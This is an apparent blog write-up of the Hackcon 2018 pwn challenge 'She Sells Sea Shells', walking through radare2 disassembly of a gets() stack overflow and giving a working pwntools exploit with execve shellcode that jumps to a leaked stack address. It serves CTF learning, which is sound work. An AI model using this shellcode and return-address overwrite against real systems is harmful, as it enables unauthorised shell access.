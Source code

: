 ```yaml
---
layout: writeup
title:  "[PWN]Hackcon'18 - She Sells Sea Shells"
author: Ring0p
date:   2018-08-17
category: ctf
tags: [ ctf, challenge, programming, write-up ]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [pwn2](http://ringr0p.github.io/binary/hackcon2018-bof)
  - Difficulty: Easy

This challenge was the fourth challenge (90 pts) of the pwn category in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary:

```
Welcome.

I have a small gift for you (no strings attached) 0x7ffcfd9a7b60

```
The first question is: what is the "small gift" that the program is giving us?
Let's open it in radare and try to figure it out:

```code
|	        0x00400676      55             push rbp                                                                                                      
|           0x00400677      4889e5         mov rbp, rsp                                                                                                          |           0x0040067a      4883ec50       sub rsp, 0x50               ; 'P'                                                                                     
|           0x0040067e      897dbc         mov dword [local_44h], edi    ; arg1                                                                                  |           0x00400681      488975b0       mov qword [local_50h], rsi    ; arg2                                                                                 
|           0x00400685      bf88074000     mov edi, str.Welcome.       ; 0x400788 ; "Welcome.\n"                                                                 |           0x0040068a      e891feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)                                                           
|           0x0040068f      488d45c0       lea rax, [local_40h]                                                                                                  |           0x00400693      4889c6         mov rsi, rax
|           0x00400696      bf98074000     mov edi, str.I_have_a_small_gift_for_you__no_strings_attached___p
|           0x0040069b      b800000000     mov eax, 0                                                                                                            
|           0x004006a0      e88bfeffff     call sym.imp.printf         ;[2] ; int printf(const char *format)                                                     
|           0x004006a5      488b05a40920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        
|           0x004006ac      4889c7         mov rdi, rax                                                                                                          
|           0x004006af      e8acfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006b4      488b05a50920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00
|           0x004006bb      4889c7         mov rdi, rax                                                                                                          |           0x004006be      e89dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           
|           0x004006c3      488d45c0       lea rax, [local_40h]                                                                                                  |           0x004006c7      4889c7         mov rdi, rax                                                                                              
|           0x004006ca      b800000000     mov eax, 0                                                                                                            |           0x004006cf      e87cfeffff     call sym.imp.gets           ;[4] ; char *gets(char *s)
|           0x004006d4      488b05750920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        |           0x004006db      4889c7         mov rdi, rax
|           0x004006de      e87dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006e3      488b05760920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00                                                             |           0x004006ea      4889c7         mov rdi, rax
|           0x004006ed      e86efeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006f2      b800000000     mov eax, 0
|           0x004006f7      c9             leave                                                                                                                 \           0x004006f8   *  c3             ret                                                                                                    

```

Ok, we can see that at 0x0040068f the address of the buffer (local_40h) is placed in rax. Notice that it uses the
"LEA" instruction instead of MOV, because it wants to "Load Effective Address" of the buffer in the register.
Than it moves rax in rsi as second parameter of the printf function, as the x64 calling convetion wants (first parameter in rdi , then rsi, rdx, rcx and so on).

After that, it requests, as the other challenges, an input that is managed using the gets () function, without the lenght control.

Then we can control the return address because there are no canaries on the stack. Moreover the NX bit is 0, then the stack is executable.
It means that if we place a shellcode in the stack and redirect the program to that address (that "casually" is given by the program), the code will be executed.

Now we have everything to write the exploit, and this time I used PwnTools to help me in the communication with the remote server:

```code
from pwn import *

'''
Shellcode:

xor rdi, rdi
xor rsi, rsi
xor rdx, rdx
xor rax, rax
push rax
mov rbx, 68732f2f6e69622fH
push rbx
mov rdi, rsp
mov al, 59
syscall

'''
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

log.info ("Shellcode len %d bytes", len(shellcode))

rem = False

if rem:
    p = remote ("139.59.30.165", 8900)
else:
    p = process ("./bof")

a = p.recv(80)
addr = int(a[60:74], 16)
payload = shellcode + (72 - len(shellcode))*'a' + p64(addr)
p.sendline(payload)
p.interactive() 
#print payload

```

And it works ;) !

![placeholder](https://ringr0p.github.io/images/hackcon2018-4-flag.png)
